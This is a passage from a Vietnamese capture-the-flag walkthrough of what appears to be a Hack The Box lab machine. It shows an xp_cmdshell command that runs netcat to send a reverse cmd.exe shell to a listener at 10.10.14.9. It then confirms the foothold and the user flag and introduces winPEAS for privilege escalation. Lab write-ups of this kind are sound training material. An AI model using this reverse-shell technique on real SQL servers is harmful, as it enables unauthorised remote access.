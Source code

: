 ```
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.9 443"
```

Cuối cùng khi nhìn lại trình lắng nghe netcat, có thể xác nhận reverse shell và chỗ đứng trong hệ thống:

![alt text](image-13.png)

User flag có thể được tìm thấy trên Desktop của user:

![alt text](image-14.png)

## Privilege Escalation

Đối với việc leo thang đặc quyền, sử dụng một công cụ có tên là `winPEAS`, có thể tự động hóa một phần lớn quy trình liệt kê trong hệ thống mục tiêu. Có thể tìm thêm thông tin về việc liệt kê hệ thống Windows cho các đường dẫn leo thang đặc quyền trong mô-đun Windows Privilege Escalation của HTB academy.
